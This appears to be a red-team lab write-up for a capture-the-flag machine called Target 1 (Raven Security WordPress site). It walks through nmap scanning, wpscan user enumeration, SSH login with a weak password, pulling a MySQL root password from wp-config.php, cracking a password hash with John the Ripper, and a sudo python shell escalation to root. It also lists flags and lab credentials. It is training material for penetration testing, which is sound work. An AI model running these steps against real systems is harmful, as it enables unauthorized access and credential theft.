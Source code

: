 # Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110 -sV -O
  PORT    SERVICE
  22/tcp  ssh
  80/tcp  http
  111/tcp rpcbind
  139/tcp netbios-ssn
  445/tcp netbios-ssn
  OS details: Linux 3.2 - 4.9
```

![nmapImage](/Images/Target1_nmapScan.png)

This scan identifies the services below as potential points of entry:

- Target 1
  - ssh (OpenSSH/6.7p1)
  - http (Apache/2.4.10)

The following vulnerabilities were identified on each target:

- Target 1
  - Wordpress Enumeration (MILD)
  - Weak Password (MILD)
  - OpenSSH (SEVERE)
  - Escalation to root (SEVERE)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1

  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}

    - Found the flag when inspecting HTML file of the services page on the RavenSecurity Website
      ![flag1](/Images/flag1_RavenWebsite.png)

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}

    - wpscan/Weak Password/openSSH

      - Used wpscan to find accounts on the website

      ```bash
        wpscan --url http://192.168.1.110/wordpress --eu
      ```

      - SSHed into target1 through michaels account (used weak password.)

      ```bash
        ssh michael@192.168.1.110
      ```

      - Navigated to /var/www and found flag2

        ![flag2](/Images/flag2_michaelwww.png)

  - `flag3`: {afc01ab56b50591e7dccf93122770cd2}

    - Navigated to /var/www/html and found the wp-config.php file.
    - upon reading the file I found the MySQLDBPassword.
      cat wp-config.php
      ![MySQL_Password](/Images/MySQL_Password.png)
    - Then Logged into the mysql database using found login.

    ```bash
      mysql -h localhost -u root -pR@v3nSecurity
    ```

    ![Mysql_Login](/Images/mySQL_get_in_and_show_databases.PNG)

    - Accessed the wordpress database and used a sql request, in order to find the flag within the table.

    ```sql
    SELECT * From wp_posts;
    ```

    ![flag3](/Images/flag3.png)

  - `flag4`: {715dea6c055b9fe3337544932f2941ce}

    - Escalation to root/openSSH

      - Found the hashed password for steven within the wp_users table.
        ![hashed_password](/Images/MYSQL_get_hashes.PNG)
      - Then used John the ripper to crack the hashed password (pink84).
        ![CrackedHash](/Images/use_John_to_crack_steven.png)
      - SSHed into target1 using stevens account.
      - Used a python script to get escalate to root privilege.
        ```bash
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
        ```
        ![EscalationToRoot](/Images/steven_getshell_and_Root.PNG)
      - Used cat to read flag4

        ![flag4](/Images/flag4Command.PNG)
